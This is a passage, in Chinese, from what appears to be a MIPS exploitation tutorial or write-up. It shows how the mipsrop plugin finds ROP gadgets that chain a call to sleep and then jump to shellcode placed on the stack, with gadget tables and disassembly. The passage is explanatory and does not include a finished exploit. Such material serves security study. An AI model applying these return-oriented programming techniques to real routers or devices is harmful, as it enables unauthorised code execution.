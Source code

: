 这样我们就能控制 s2 寄存器也能控制 PC，下一步就是跳到 sleep, 但是单纯的跳到 sleep 是不够的，同时我们要保证执行完 sleep 后能跳到下一个 gadget ，所以我们还需要一个既能 执行 sleep 又能控制下一个 PC 地址的 gadget
看了眼寄存器，此时 我们还能控制的还挺多，例如我这里找 $a3 的寄存器
```
Python>mipsrop.find("mov $t9, $s3")
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0001CE80  |  move $t9,$s3                                        |  jalr  $s3                             |
..........
|  0x000949EC  |  move $t9,$s3                                        |  jalr  $s3                             |
....
```
通过这个 gadget 我们先跳到 s3 的寄存器执行 sleep ，再通过控制的 ra 寄存器进行下一步操作


```
.text:000949EC                 move    $t9, $s3
.text:000949F0                 jalr    $t9 ; uselocale
.text:000949F4                 move    $s0, $v0
.text:000949F8
.text:000949F8 loc_949F8:                               # CODE XREF: strerror_l+15C↓j
.text:000949F8                 lw      $ra, 0x34($sp)
.text:000949FC                 move    $v0, $s0
.text:00094A00                 lw      $s3, 0x24+var_sC($sp)
.text:00094A04                 lw      $s2, 0x24+var_s8($sp)
.text:00094A08                 lw      $s1, 0x24+var_s4($sp)
.text:00094A0C                 lw      $s0, 0x24+var_s0($sp)
.text:00094A10                 jr      $ra
.text:00094A14                 addiu   $sp, 0x38
```
通过这个 gadget 我们先跳到 s3 的寄存器执行 sleep ，再通过控制的 ra 寄存器进行下一步操作
#### 2. jmp shellcode

下一步就是跳到 shellcode ，要跳到shellcode 我们先需要获得栈地址

我们先用 `Python>mipsrop.stackfinder()`

获得 如下 gadget

  ```asm
  .text:00095B74                 addiu   $a1, $sp, 52
  .text:00095B78                 sw      $zero, 24($sp)
  .text:00095B7C                 sw      $v0, 20($sp)
  .text:00095B80                 move    $a3, $s2
  .text:00095B84                 move    $t9, $s5
  .text:00095B88                 jalr    $t9
  ```
该 gadget 可以将栈地址， 即 $sp+24 的值赋值给 $a0 ，那么这个栈就是我们即将填充 shellcode 的地方， $s5 可控，最后这段 gadget 会跳往 $s5 , 那么我们只需要再找一个直接 jr $a0 的gadget 即可
```
  Python>mipsrop.find("move $t9, $a1")
  ----------------------------------------------------------------------------------------------------------------
  |  Address     |  Action                                              |  Control Jump                          |
  ----------------------------------------------------------------------------------------------------------------
  |  0x000FA0A0  |  move $t9,$a1                                        |  jalr  $a1                             |
  |  0x0012568C  |  move $t9,$a1                                        |  jalr  $a1                             |
```
